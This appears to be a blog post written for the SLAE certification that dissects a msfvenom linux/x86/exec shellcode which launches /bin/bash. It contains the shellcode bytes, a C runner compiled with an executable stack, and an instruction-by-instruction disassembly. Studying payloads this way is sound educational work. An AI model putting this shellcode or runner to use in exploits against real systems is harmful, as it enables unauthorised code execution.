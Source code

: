 # Shellcode No.3 - Exec Command

<p style="text-align: justify;">At third glance, we'll take payload linux/x86/exec, for /bin/bash executing.</p>

------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">Again, we'll use msfvenom for shellcode generation:</p>

```sh
$ msfvenom -p linux/x86/exec CMD=/bin/bash -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 45 bytes
Final size of c file: 213 bytes
unsigned char buf[] =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
shellcode.c wrapped updating:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
Compiling:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">In the second terminal we can check the processes opened using "ps" command:</p>

```sh
$ ps
  PID TTY          TIME CMD
16395 pts/0    00:00:00 bash
27003 pts/0    00:00:00 ps
$ ./shellcode 
Shellcode Length:  15
$ ps
  PID TTY          TIME CMD
16395 pts/0    00:00:00 bash
27004 pts/0    00:00:00 sh
27005 pts/0    00:00:00 bash
27058 pts/0    00:00:00 ps
```

<p style="text-align: justify;">Fantastic, everything works fine. As we see, again there are some null bytes, which breaks our "Shellcode Length" counter.</p>

------------------------------------------------------------------------------------------------------------------------
Let's use ndisasm again.
```sh
$ echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -
```
```nasm
00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E80A000000        call dword 0x27
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das
00000022  626173            bound esp,[ecx+0x73]
00000025  6800575389        push dword 0x89535700
0000002A  E1CD              loope 0xfffffff9
0000002C  80                db 0x80
```
------------------------------------------------------------------------------------------------------------------------

<p style="text-align: justify;">The analysis of this shellcode will not be divided into different parts. </p>

- Pushing value 11 on the stack (for execve())
```nasm
00000000  6A0B              push byte +0xb
```
- Moving that value into EAX
```nasm
00000002  58                pop eax
```
- Modern EDX cleaning (0x0)
```nasm
00000003  99                cdq
```
- Pushing 0 on the stack (string terminator)
```nasm
00000004  52                push edx
```
- Pushing '-c' string on the stack - this is a /bin/sh parametr
```nasm
00000005  66682D63          push word 0x632d
```
- EDI points at top of the stack (ESP) for "-c"
```nasm
00000009  89E7              mov edi,esp
```
- Pushing "/sh" on the stack
```nasm
0000000B  682F736800        push dword 0x68732f
```
- Pushing "/bin" on the stack
```nasm
00000010  682F62696E        push dword 0x6e69622f
```
- EBX points at top of the stack (ESP) for "/bin/sh"
```nasm
00000015  89E3              mov ebx,esp
```
- Pushing 0 on the stack (string terminator)
```nasm
00000017  52                push edx
```
- Here we are using call instruction for pushing address of the '/bin/bash' string on the stack (that string is places right after call instruction). Call "orders" us to jump to 0x27, because that's where our string + null terminator ends
```nasm
00000018  E80A000000        call dword 0x27
```
- /bin/bas string, note "H" is missing
```nasm
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das
00000022  626173            bound esp,[ecx+0x73]
```
- Here, we have our missing "H", null terminator (\x00) and finally our 0x27 from call
```nasm
00000025  6800575389        push dword 0x89535700
```
We will check what is hidden, using ndisasm again. 
```sh
$ echo -ne "\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -
00000000  57                push edi
00000001  53                push ebx
00000002  89E1              mov ecx,esp
00000004  CD80              int 0x80
```
Great! Let's analyze the last instructions.
- Push our pointer to "-c" string
```nasm
00000000  57                push edi
```
- Push our pointer for "/bin/sh" string
```nasm
00000001  53                push ebx
```
- Moving top of the stack to the ECX registry, now stack looks like: 
	- "/bin/sh"
	- "-c"
	- "/bin/bash"
	- 0x00 -> argv terminator
```nasm
00000002  89E1              mov ecx,esp
```
- Execve() syscall execution
```nasm
00000004  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

That's all, /bin/bash executes properly.

### Pwned. ###

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------

<p style="text-align: justify;">This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3</p>

Student ID: SLAE-1524

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
